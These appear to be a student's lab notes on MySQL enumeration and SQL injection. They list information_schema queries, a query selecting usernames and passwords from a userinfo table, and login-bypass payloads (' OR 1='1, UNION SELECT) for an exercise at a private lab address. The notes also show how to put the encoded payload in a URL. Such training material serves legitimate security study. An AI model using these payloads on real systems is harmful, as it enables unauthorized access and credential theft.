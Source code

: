 # Commands



```
mysql
> help
> show databases ;
> use information_schema ; 
> show tables ;
> show columns from columns ;
> select table_schema,table_name,column_name from information_schema.columns ;
   * Golden Statement ^
> use session ;
> show tables ;
> show tables from session ;
  * when not using a specific database 
> select username,passwd,studentID from session.userinfo ;
> select name,cost,color from session.car ; 
> select name,size,cost from session.Tires
>
>
>
>

```


## default databases:
information_schema: the database that holds all the information pertaining to all the databases.
mysql
performance_schema



## Data structures we will be interacting with:
databse
tables
columns 

----------------------------------------------------------------------------------------------------------

  SQL Injection Validation Exercise ()
http://10.50.36.14


```
' OR 1='1

{option}' OR 1='1
```

```

{option}' UNION SELECT 1,2,3,4 #
```
* insert both into the input fileds:
  - User:
  - Pass:

* Inspect the page
  - Network
    - POST request
      - Request

* Append the the value in the request filed to the end of the URL:
  ex:
```
  http://10.50.36.14/login.php
  + username=%27+OR+1+%3D%271&passwd=%27+OR+1+%3D%271
  so...
 http://10.50.36.14/login.php?username=%27+OR+1+%3D%271&passwd=%27+OR+1+%3D%271
```

